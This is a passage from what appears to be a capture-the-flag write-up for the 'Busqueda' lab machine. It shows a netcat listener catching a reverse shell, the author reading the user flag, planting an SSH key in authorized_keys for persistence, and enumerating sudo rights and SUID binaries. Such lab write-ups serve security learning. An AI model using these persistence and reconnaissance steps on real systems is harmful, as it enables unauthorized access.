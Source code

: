 I was in, and got the user flag.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.208] 48874
/bin/sh: 0: can't access tty; job control turned off
$ whoami
svc

$ cd

$ ls
user.txt

$ cat user.txt
REDACTED
```

## Getting root

Once connected, I copied my SSH public key on the server and reconnected with SSH.

```bash
$ mkdir .ssh

$ chmod 700 .ssh

$ cd .ssh

$ echo "ssh-rsa AAAA ..." >> authorized_keys

$ chmod 600 authorized_keys
```

Then I looked at what I could do on the server.

```bash
svc@busqueda:~$ sudo -l
[sudo] password for svc: 
sudo: a password is required

svc@busqueda:~$ find / -perm /u=s 2>/dev/null 
/usr/libexec/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/umount
/usr/bin/fusermount3
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/snap/core20/1822/usr/bin/chfn
/snap/core20/1822/usr/bin/chsh
/snap/core20/1822/usr/bin/gpasswd
/snap/core20/1822/usr/bin/mount
/snap/core20/1822/usr/bin/newgrp
/snap/core20/1822/usr/bin/passwd
/snap/core20/1822/usr/bin/su
/snap/core20/1822/usr/bin/sudo
/snap/core20/1822/usr/bin/umount
```